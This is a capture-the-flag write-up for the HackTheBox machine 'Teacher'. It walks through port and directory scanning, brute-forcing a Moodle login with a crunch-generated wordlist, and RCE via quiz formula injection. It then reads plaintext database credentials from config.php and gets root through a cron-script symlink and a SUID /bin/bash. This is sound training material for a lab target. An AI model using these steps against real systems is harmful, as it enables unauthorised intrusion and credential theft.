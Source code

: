 ```yaml
---
title: HackTheBox - Teacher
categories: htb moodle mariadb
excerpt: | 
   Teacher is an easy difficulty Linux machine. It is an educational portal of a school which use moodle.

feature_text: |
  ## Teacher - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
``` python 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Blackhat highschool
|_http-server-header: Apache/2.4.25 (Debian)
```
Teacher is a easy difficulty Linux machine. It is an educational portal of a school which use moodle.

What's Moodle?
>**Moodle** is a free and open-source learning management system written in PHP. It's used for blended learning, distance education, flipped classroom and other online learning schemes

To enumerate the main service in port 80 we use `wfuzz`:
``` python
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.153/FUZZ -t 200
```
``` python
000000016:   301        9 L      28 W       313 Ch      "images"
000010825:   403        11 L     32 W       297 Ch      "phpmyadmin"
000014433:   301        9 L      28 W       313 Ch      "moodle"   
```
Taking a look of images path we'll find a suspicious image `5.png` which contains a posible password for user Giovanni, but he cannot remmember the last caracter of his passwod. But we can create a dictionary with the command `crunch`. Firstly, create a file charse.lst. Then use it to generate all possible password:
```
dalpha                     = [abcdefghijklmnopqrstuvwxyz]
ualpha                     = [ABCDEFGHIJKLMNOPQRSTUVWXYZ]
numeric                    = [0123456789]
symbols-all                = [!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
all-alpha-numeric-symbol   = [ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|\:;"'<>,.?/]
```
``` python
crunch 15 15 -f charset.lst all-alpha-numeric-symbol -t Th4C00lTheacha@ > password.txt
```

We got a possible credential so maybe there is an access panel... Examine directory moodle which is a redirect to `http://teacher.htb/moodle/`. Adding this new host in our /etc/hosts, we'll follow it. There is a sign-in panel. Use burpsuite to study how is data sent. Then use wfuzz to find the correct password for Giovanni.
``` python
wfuzz -c --hc=404 -w password.txt -u http://teacher.htb//moodle/login/index.php -d "anchor=&username=Giovanni&password=FUZZ" 
```
The password will be valid when the response is different from everyone else. You got it! Now you are Giovanni, the teacher. You are allowed to create all quizz you want.

### Exploit vulnerabilities
You can [inject code](https://blog.sonarsource.com/moodle-remote-code-execution/) in moodle math formulas. This ones are evaluated by moodle dynamically on randomized input variables. It will evaluate it with the function `eval()` of PHP.

Following the inject code tutorial you can create a quizz and get a RCE. You can use it to get an interactive console to work better.

### Migrating of user 
Usually there are config files which have credentials as plain text. Look for one of this file on the domain and check if we can get credentials. Exaclty take a look of `/var/www/html/moodle/config.php`. It has a root password of **mariadb**.

Go to mysql as root and examine all databases to find some other credentials: `mysql -u root -p`. There is an identifier associated with username. Examine it with `hash-identifier` and search in [crackstation](https://crackstation.net/), because it is possible this identifier is in his dictionary. 

### Privilege Scalation
If we look at /home/giovanni directory we can see a folder named `work` which contains backup from courses. This tell us that there is a periodically command executed. Using a procmon or pspy we'll see it:
``` python
2022/07/13 19:16:01 CMD: UID=0    PID=14010  | /bin/bash /usr/bin/backup.sh 
2022/07/13 19:16:01 CMD: UID=0    PID=14011  | tar -xf backup_courses.tar.gz
2022/07/13 19:16:01 CMD: UID=0    PID=14012  | /bin/bash /usr/bin/backup.sh 
```
Take a look of `/usr/bin/backup.sh` script. 
``` python
#!/bin/bash                                   
cd /home/giovanni/work;                       
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;                                       
tar -xf backup_courses.tar.gz;                
chmod 777 * -R;                               
```
As you can see, it is executed by root (UID=0) and it changes persmission of directory `/home/giovanni/work/tmp/*` so if we create a symbol link named test that reference to /usr/bin/backup.sh in this directory we will change permission of backup.sh because it is executed by root:
1. cd /home/giovanni/work/tmp/
2. touch test
3. ln -s -f /usr/bin/backup.sh test
4. (Wait to the periodic task and) Check the permission of backup.share
5. Edit it to change permission of /bin/bash: `chmod u+s /bin/bash`
6. bash -p

 And that's all!

